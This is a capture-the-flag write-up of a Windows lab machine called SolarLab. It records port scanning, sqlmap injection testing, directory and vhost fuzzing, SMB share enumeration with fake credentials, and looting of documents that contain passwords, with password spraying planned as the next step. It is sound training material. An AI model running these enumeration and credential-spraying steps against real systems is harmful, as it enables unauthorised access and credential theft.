# Initial Enumeration

As usual we are provided only one private IPv4 address and we know it is about a Windows based machine.



So let's engage Rustscan and check all the alive services running on TCP protocol on the machine.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads]
└─# rustscan -a 10.10.11.16 -- -A -T4
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.11.16:80
Open 10.10.11.16:135
Open 10.10.11.16:139
Open 10.10.11.16:445
Open 10.10.11.16:6791
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -A -T4" on ip 10.10.11.16
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-16 14:52 CEST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 14:52
Completed NSE at 14:52, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 14:52
Completed NSE at 14:52, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 14:52
Completed NSE at 14:52, 0.00s elapsed
Initiating Ping Scan at 14:52
Scanning 10.10.11.16 [4 ports]
Completed Ping Scan at 14:52, 0.07s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 14:52
Completed Parallel DNS resolution of 1 host. at 14:52, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 14:52
Scanning 10.10.11.16 [5 ports]
Discovered open port 139/tcp on 10.10.11.16
Discovered open port 80/tcp on 10.10.11.16
Discovered open port 445/tcp on 10.10.11.16
Discovered open port 135/tcp on 10.10.11.16
Discovered open port 6791/tcp on 10.10.11.16
Completed SYN Stealth Scan at 14:52, 0.14s elapsed (5 total ports)
Initiating Service scan at 14:52
Scanning 5 services on 10.10.11.16
Completed Service scan at 14:52, 11.31s elapsed (5 services on 1 host)
Initiating OS detection (try #1) against 10.10.11.16
Retrying OS detection (try #2) against 10.10.11.16
Initiating Traceroute at 14:52
Completed Traceroute at 14:52, 0.14s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 14:52
Completed Parallel DNS resolution of 2 hosts. at 14:52, 0.00s elapsed
DNS resolution of 2 IPs took 0.00s. Mode: Async [#: 1, OK: 0, NX: 2, DR: 0, SF: 0, TR: 2, CN: 0]
NSE: Script scanning 10.10.11.16.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 14:52
NSE Timing: About 99.86% done; ETC: 14:52 (0:00:00 remaining)
Completed NSE at 14:53, 40.18s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 14:53
Completed NSE at 14:53, 0.36s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 14:53
Completed NSE at 14:53, 0.00s elapsed
Nmap scan report for 10.10.11.16
Host is up, received echo-reply ttl 127 (0.093s latency).
Scanned at 2024-05-16 14:52:06 CEST for 57s

PORT     STATE SERVICE       REASON          VERSION
80/tcp   open  http          syn-ack ttl 127 nginx 1.24.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://solarlab.htb/
|_http-server-header: nginx/1.24.0
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 127
6791/tcp open  http          syn-ack ttl 127 nginx 1.24.0
|_http-title: Did not follow redirect to http://report.solarlab.htb:6791/
|_http-server-header: nginx/1.24.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP (85%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows XP SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=5/16%OT=80%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=664601AF%P=x86_64-pc-linux-gnu)
SEQ(SP=103%GCD=1%ISR=10E%TI=I%TS=U)
SEQ(SP=103%GCD=1%ISR=10E%TI=I%II=I%SS=S%TS=U)
OPS(O1=M550NW8NNS%O2=M550NW8NNS%O3=M550NW8%O4=M550NW8NNS%O5=M550NW8NNS%O6=M550NNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M550NW8NNS%CC=N%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 0s
| smb2-time: 
|   date: 2024-05-16T12:52:27
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 64857/tcp): CLEAN (Timeout)
|   Check 2 (port 37138/tcp): CLEAN (Timeout)
|   Check 3 (port 48381/udp): CLEAN (Timeout)
|   Check 4 (port 52237/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 139/tcp)
HOP RTT       ADDRESS
1   31.30 ms  10.10.14.1
2   133.99 ms 10.10.11.16

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 14:53
Completed NSE at 14:53, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 14:53
Completed NSE at 14:53, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 14:53
Completed NSE at 14:53, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.90 seconds
           Raw packets sent: 100 (8.510KB) | Rcvd: 41 (2.814KB)
```

I see that the hostname is poiting to **solar.htb**, but also another subdomain(**report**) on a non standard port so let's add that to our local hosts file and check for the same UDP services is anything interesting comes out.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads]
└─# nmap -sU -F 10.10.11.16 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-16 14:55 CEST
Nmap scan report for solarlab.htb (10.10.11.16)
Host is up (0.080s latency).
All 100 scanned ports on solarlab.htb (10.10.11.16) are in ignored states.
Not shown: 100 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 9.36 seconds
```

Nothing here but let's start by checking the services.

&nbsp;

# SMB/NETBIOS

The easiest is to start by checking the information we can get from the NETBIOS/SMB.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads]
└─# enum4linux-ng -A 10.10.11.16                        
/usr/local/bin/enum4linux-ng:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('enum4linux-ng==1.3.2', 'enum4linux-ng')
ENUM4LINUX - next generation (v1.3.2)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.10.11.16
[*] Username ......... ''
[*] Random Username .. 'xtqtmbri'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 ====================================
|    Listener Scan on 10.10.11.16    |
 ====================================
[*] Checking LDAP
[-] Could not connect to LDAP on 389/tcp: timed out
[*] Checking LDAPS
[-] Could not connect to LDAPS on 636/tcp: timed out
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ==========================================================
|    NetBIOS Names and Workgroup/Domain for 10.10.11.16    |
 ==========================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ========================================
|    SMB Dialect Check on 10.10.11.16    |
 ========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false
SMB signing required: false

 ==========================================================
|    Domain Information via SMB session for 10.10.11.16    |
 ==========================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: SOLARLAB
NetBIOS domain name: ''
DNS domain: solarlab
FQDN: solarlab
Derived membership: workgroup member
Derived domain: unknown

 ========================================
|    RPC Session Check on 10.10.11.16    |
 ========================================
[*] Check for null session
[-] Could not establish null session: STATUS_ACCESS_DENIED
[*] Check for random user
[+] Server allows session using username 'xtqtmbri', password ''
[H] Rerunning enumeration with user 'xtqtmbri' might give more results

 ==============================================
|    OS Information via RPC for 10.10.11.16    |
 ==============================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Skipping 'srvinfo' run, not possible with provided credentials
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016
OS version: '10.0'
OS release: '2004'
OS build: '19041'
Native OS: not supported
Native LAN manager: not supported
Platform id: null
Server type: null
Server type string: null

[!] Aborting remainder of tests, sessions are possible, but not with the provided credentials (see session check results)
```

I don't see  any traces of AD or domains, plus no samsba shares popped back I will move on to the HTTP sites!.

&nbsp;

# ReportHub

I see that the strange service over the port 6791/TCP is pointing to a login page of Reporthub?  
Might be this one but the logo isn't same?


https://reporthub.immap.org/

I fetch the login request and check for SQL injections?



Let's pass the request to SQLMAP and hope for the best!

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads]
└─# sqlmap -r reporthub.req --batch --dbs --risk 3
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8.4#stable}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:11:50 /2024-05-16/

[15:11:50] [INFO] parsing HTTP request from 'reporthub.req'
[15:11:51] [INFO] testing connection to the target URL
[15:11:51] [INFO] checking if the target is protected by some kind of WAF/IPS
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
[15:11:51] [INFO] testing if the target URL content is stable
[15:11:51] [INFO] target URL content is stable
[15:11:51] [INFO] testing if POST parameter 'username' is dynamic
[15:11:51] [WARNING] POST parameter 'username' does not appear to be dynamic
[15:11:51] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[15:11:52] [INFO] testing for SQL injection on POST parameter 'username'
[15:11:52] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[15:11:52] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[15:11:53] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[15:11:53] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[15:11:53] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[15:11:53] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[15:11:54] [INFO] testing 'PostgreSQL OR error-based - WHERE or HAVING clause'
[15:11:54] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[15:11:55] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[15:11:55] [INFO] testing 'Oracle OR error-based - WHERE or HAVING clause (XMLType)'
[15:11:55] [INFO] testing 'Generic inline queries'
[15:11:55] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[15:11:56] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[15:11:56] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[15:11:56] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[15:11:57] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (query SLEEP)'
[15:11:57] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[15:11:58] [INFO] testing 'PostgreSQL > 8.1 OR time-based blind'
[15:11:58] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[15:11:58] [INFO] testing 'Oracle AND time-based blind'
[15:11:59] [INFO] testing 'Oracle OR time-based blind'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] Y
[15:11:59] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[15:12:00] [WARNING] POST parameter 'username' does not seem to be injectable
[15:12:00] [INFO] testing if POST parameter 'password' is dynamic
[15:12:00] [WARNING] POST parameter 'password' does not appear to be dynamic
[15:12:00] [WARNING] heuristic (basic) test shows that POST parameter 'password' might not be injectable
[15:12:00] [INFO] testing for SQL injection on POST parameter 'password'
[15:12:00] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[15:12:01] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[15:12:02] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[15:12:02] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[15:12:02] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[15:12:02] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[15:12:03] [INFO] testing 'PostgreSQL OR error-based - WHERE or HAVING clause'
[15:12:03] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[15:12:04] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[15:12:04] [INFO] testing 'Oracle OR error-based - WHERE or HAVING clause (XMLType)'
[15:12:05] [INFO] testing 'Generic inline queries'
[15:12:05] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[15:12:05] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[15:12:05] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[15:12:06] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[15:12:06] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (query SLEEP)'
[15:12:07] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[15:12:07] [INFO] testing 'PostgreSQL > 8.1 OR time-based blind'
[15:12:08] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[15:12:08] [INFO] testing 'Oracle AND time-based blind'
[15:12:08] [INFO] testing 'Oracle OR time-based blind'
[15:12:08] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[15:12:09] [WARNING] POST parameter 'password' does not seem to be injectable
[15:12:09] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'

[*] ending @ 15:12:09 /2024-05-16/
```

No luck, so let's see if we can find other files/folders hidden on the host?

```
──(root㉿kali-bello)-[/home/millycash/Downloads]
└─# dirsearch -u "http://report.solarlab.htb:6791/"     
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/millycash/Downloads/reports/http_report.solarlab.htb_6791/__24-05-16_15-13-14.txt

Target: http://report.solarlab.htb:6791/

[15:13:14] Starting: 
[15:13:22] 400 -  157B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[15:13:38] 302 -  235B  - /dashboard  ->  /login?next=%2Fdashboard
[15:13:45] 400 -  157B  - /index.php::$DATA
[15:13:47] 200 -    2KB - /login
[15:13:48] 302 -  229B  - /logout  ->  /login?next=%2Flogout
[15:14:12] 400 -  157B  - /Trace.axd::$DATA
[15:14:17] 400 -  157B  - /web.config::$DATA

Task Completed
```

Nothing juicy unfortunately I guess we might come back if we find something other or it just might be a rabbit hole?

I will try to check for possible other subdomains?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://report.solarlab.htb:6791/ -H "Host:FUZZ.report.solarlab.htb" -fl 8     

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://report.solarlab.htb:6791/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.report.solarlab.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 8
________________________________________________

:: Progress: [19966/19966] :: Job [1/1] :: 337 req/sec :: Duration: [0:00:37] :: Errors: 0 ::
```

I think we can move on for now!

&nbsp;

# HTTP

Now looking around we can see a list of possible usernames from the team:


I see a subscribe with seems a rabbit hole as well?




And lastly a contact function?


Does it work this one?



Seems another rabbit hole i guess. So let's check for possible VHOSTS on this address?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://solarlab.htb/ -H "Host:FUZZ.solarlab.htb" -fl 8                   

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://solarlab.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.solarlab.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 8
________________________________________________

:: Progress: [19966/19966] :: Job [1/1] :: 1176 req/sec :: Duration: [0:00:30] :: Errors: 0 ::
```

DAMN! Nothing still, but what about hidden files/folders?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads]
└─# dirsearch -u "http://solarlab.htb/"            
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/millycash/Downloads/reports/http_solarlab.htb/__24-05-16_15-23-34.txt

Target: http://solarlab.htb/

[15:23:34] Starting: 
[15:23:41] 400 -  157B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[15:23:50] 301 -  169B  - /assets  ->  http://solarlab.htb/assets/
[15:23:50] 403 -  555B  - /assets/
[15:24:03] 301 -  169B  - /images  ->  http://solarlab.htb/images/
[15:24:03] 403 -  555B  - /images/
[15:24:04] 400 -  157B  - /index.php::$DATA
[15:24:26] 400 -  157B  - /Trace.axd::$DATA
[15:24:30] 400 -  157B  - /web.config::$DATA

Task Completed
```

&nbsp;

# Back on SMB

Apparently the enum4linux didn't found the presence of a publicly accessible samba share.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads]
└─# smbclient -L "//solarlab.htb"                                                                                  
Password for [WORKGROUP\root]:

    Sharename       Type      Comment
    ---------       ----      -------
    ADMIN$          Disk      Remote Admin
    C$              Disk      Default share
    Documents       Disk      
    IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to solarlab.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

This can be also performed by using some fake creds via crackmapexec:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads]
└─# crackmapexec smb solarlab.htb -u test -p test --shares
SMB         solarlab.htb    445    SOLARLAB         [*] Windows 10.0 Build 19041 x64 (name:SOLARLAB) (domain:solarlab) (signing:False) (SMBv1:False)
SMB         solarlab.htb    445    SOLARLAB         [+] solarlab\test:test 
SMB         solarlab.htb    445    SOLARLAB         [+] Enumerated shares
SMB         solarlab.htb    445    SOLARLAB         Share           Permissions     Remark
SMB         solarlab.htb    445    SOLARLAB         -----           -----------     ------
SMB         solarlab.htb    445    SOLARLAB         ADMIN$                          Remote Admin
SMB         solarlab.htb    445    SOLARLAB         C$                              Default share
SMB         solarlab.htb    445    SOLARLAB         Documents       READ            
SMB         solarlab.htb    445    SOLARLAB         IPC$            READ            Remote IPC
```

Let's check what can we find from "Documents" folder!

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/SolarLab]
└─# smbclient "//solarlab.htb/Documents" 
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Wed May 15 12:29:20 2024
  ..                                 DR        0  Wed May 15 12:29:20 2024
  concepts                            D        0  Fri Apr 26 16:41:57 2024
  desktop.ini                       AHS      278  Fri Nov 17 11:54:43 2023
  details-file.xlsx                   A    12793  Fri Nov 17 13:27:21 2023
  My Music                        DHSrn        0  Thu Nov 16 20:36:51 2023
  My Pictures                     DHSrn        0  Thu Nov 16 20:36:51 2023
  My Videos                       DHSrn        0  Thu Nov 16 20:36:51 2023
  old_leave_request_form.docx         A    37194  Fri Nov 17 11:35:57 2023
  shell.exe                           A     7168  Wed May 15 12:29:20 2024

        7779839 blocks of size 4096. 1282658 blocks available
smb: \> prompt
smb: \> recurse
smb: \> mget *
getting file \desktop.ini of size 278 as desktop.ini (2.2 KiloBytes/sec) (average 2.2 KiloBytes/sec)
getting file \details-file.xlsx of size 12793 as details-file.xlsx (35.5 KiloBytes/sec) (average 26.8 KiloBytes/sec)
getting file \old_leave_request_form.docx of size 37194 as old_leave_request_form.docx (93.4 KiloBytes/sec) (average 56.7 KiloBytes/sec)
getting file \shell.exe of size 7168 as shell.exe (56.9 KiloBytes/sec) (average 56.7 KiloBytes/sec)
getting file \concepts\Training-Request-Form.docx of size 161337 as concepts/Training-Request-Form.docx (516.6 KiloBytes/sec) (average 165.1 KiloBytes/sec)
getting file \concepts\Travel-Request-Sample.docx of size 30953 as concepts/Travel-Request-Sample.docx (116.7 KiloBytes/sec) (average 157.0 KiloBytes/sec)
NT_STATUS_ACCESS_DENIED listing \My Music\*
NT_STATUS_ACCESS_DENIED listing \My Pictures\*
NT_STATUS_ACCESS_DENIED listing \My Videos\*
smb: \>
```

Now one of the files contains some passwords:


Now I will save those creds for passwordspraying:



Now the usernames are there but there is several logics:

- SName
- NameS
- Name.Surname

I will try some manual fuzzing in case I need to create all the usernames so I can make it working!  
So trying manually seems like the username claudias exist as it isn't givin back the same response as the username don't exist?

